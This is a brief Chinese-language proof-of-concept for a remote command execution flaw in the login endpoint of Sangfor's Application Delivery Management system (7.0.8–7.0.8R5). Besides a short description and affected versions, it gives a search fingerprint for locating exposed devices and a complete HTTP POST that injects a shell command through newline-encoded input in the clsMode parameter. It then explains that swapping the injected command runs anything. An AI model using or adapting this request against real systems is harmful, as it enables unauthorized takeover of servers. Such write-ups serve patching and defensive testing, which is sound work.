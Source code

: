 0x00 漏洞描述

深信服应用交付管理系统login存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

0x01 漏洞发布时间: 2023年8月9日

0x02 漏洞影响

深信服 应用交付管理系统 7.0.8-7.0.8R5

0x03 网络测绘

fid="iaytNA57019/kADk8Nev7g=="

0x04 漏洞复现

```
POST /rep/login HTTP/1.1
Host: 1.1.1.1:85
Cookie: UEDC_LOGIN_POLICY_VALUE=checked
Content-Length: 124
Sec-Ch-Ua: "Not/A)Brand";v="99", "Google Chrome";v="115", "Chromium";v="115"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://1.1.1.1
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://1.1.1.1:85/rep/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

clsMode=cls_mode_login%0Awhoami%0A&index=index&log_type=report&loginType=account&page=login&rnd=0&userID=admin&userPsw=123

```
通过更改%0A中间的参数执行任意命令
